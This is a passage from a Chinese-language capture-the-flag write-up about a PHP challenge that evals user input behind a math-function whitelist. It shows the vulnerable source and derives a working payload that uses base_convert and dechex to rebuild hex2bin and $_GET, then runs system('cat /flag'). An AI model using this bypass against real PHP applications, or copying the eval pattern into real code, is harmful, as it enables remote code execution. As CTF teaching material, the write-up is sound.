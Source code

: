 ```bash
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}

```
这题只能用他给的函数，且限制了传入的值的长度为80，那么可以传入一个get参数，然后再传入想用的payload，需要编码绕过，首先，注意白名单中的一些函数：

>base_convert(number,frombase,tobase)：在任意进制之间转换数字
dechex()：把十进制数转换为十六进制数
hex2bin()：把十六进制值的字符串转换为 ASCII 字符

先用无绕过的方式写出payload：
```
  ?c=$_GET[a]($_GET[b]);&a=system&b=("cat flag.php")
```
由于`[]`被ban了，可以用`{}`代替。
因为hex2bin函数被ban，要想使用它，必须要构造出他的其他进制形式，然后转换成hex2bin函数，那么base_convert()函数就发挥作用了，可以构造:
```
$pi=base_convert(37907361743,10,36)，这里$pi就是hex2bin函数
```
则payload前半部分绕过_GET的就能出来了：

```bash
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat /flag
// base_convert(37907361743,10,36) -> hex2bin
// dechex(1598506324) -> 5f474554
// hex2bin("5f474554") -> _GET

$pi 的值为 hex2bin("5f474554") ，$$pi 也就是 $hex2bin("5f474554") -> $_GET ，变成了预定义变量。
```
